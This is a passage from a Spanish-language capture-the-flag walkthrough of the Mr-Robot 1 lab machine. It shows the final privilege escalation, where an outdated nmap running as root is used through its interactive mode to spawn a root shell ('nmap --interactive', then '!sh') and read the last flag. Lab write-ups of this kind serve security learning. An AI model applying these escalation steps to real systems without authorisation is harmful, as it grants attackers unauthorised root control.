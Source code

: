 - Tras una breve búsqueda en internet, tenemos que esta versión es vulnerable y puede ejecutar una *shell* desde el modulo ***interactive*** de nmap.
- Al ejecutarse como root, podemos presuponer que al ejecutar una *shell* una vez dentro del modulo de NMAP, se ejecutara como SUDO.

```bash
nmap --interactive
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2017.png)

- Ejecutamos una *shell*:

```bash
!sh
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2018.png)

`BINGO!!`

- Ahora ya nos dirigimos al directorio root y encontramos la ultima flag dentro:

```bash
cd /root
ls
cat key-3-of-3.txt
```

![Untitled](Mr-Robot%201%20d399b/Untitled%2019.png)
